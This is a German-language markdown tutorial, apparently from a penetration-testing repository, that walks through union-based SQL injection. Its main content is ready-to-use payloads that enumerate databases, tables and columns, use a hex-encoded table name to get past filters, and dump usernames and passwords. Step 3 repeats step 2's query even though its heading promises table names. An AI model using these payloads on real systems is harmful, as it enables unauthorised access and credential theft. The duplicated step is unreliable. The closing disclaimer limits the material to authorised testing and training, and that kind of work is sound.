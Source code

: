 # Union-Based SQL Injection Attack

> Dieses Dokument beschreibt die Durchführung einer Union-Based. SQL-Injection zur Extraktion von Daten aus einer Datenbank.

## Inhaltsverzeichnis
- [Ziel](#ziel)
- [Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`](#beispielhafte-schritte-zur-datenextraktion-mit-group_concat)
- [Hinweise](#hinweise)
- [Sicherheitshinweis](#sicherheitshinweis)
- [Haftungsausschluss](#haftungsausschluss)



## Ziel

Datenbankinformationen schrittweise über die `UNION SELECT`-Technik auslesen – insbesondere bei anfälligen Parametern wie z. B. `id`, `search`, `user`, etc.



## Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`

1. **Test auf Verwundbarkeit mit UNION SELECT**
```sql
test' UNION SELECT 1,2,3 FROM table_name --
```

2. **Schemas (Datenbanken) anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --
```

3. **Tabellennamen der aktuellen Datenbank anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --
```

4. **Spaltennamen aus einer bestimmten Tabelle anzeigen (Klartextname):**
```sql
test' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' --
```

5. **Spaltennamen anzeigen mit Hex-Wert für Tabellenname (Bypass & Genauigkeit):**
```sql
test' UNION SELECT 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns WHERE table_name=0x7573657273 --
```

💡 `users` in Hex: 0x7573657273
Tool für Umwandlung: [Codebeautify – String to Hex](https://codebeautify.org/string-hex-converter)

6. **Nutzerdaten ausgeben (z. B. Username & Passwort):**
```sql
test' UNION SELECT 1,group_concat(username,0x3a3a,password),3 FROM users --
```



## Hinweise
- `group_concat()` ist hilfreich zum Kombinieren mehrerer Ergebnisse in einer Zeile.

- Hexadezimaldarstellung (0x...) kann helfen, Filter oder Escaping-Probleme zu umgehen.

- Kommentare wie -- oder --+ beenden den ursprünglichen SQL-Befehl korrekt.



## Sicherheitshinweis

Dieses Wissen dient ausschließlich der legalen Anwendung im Rahmen von Penetration Tests mit ausdrücklicher Erlaubnis. Der Missbrauch kann strafrechtlich verfolgt werden.



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

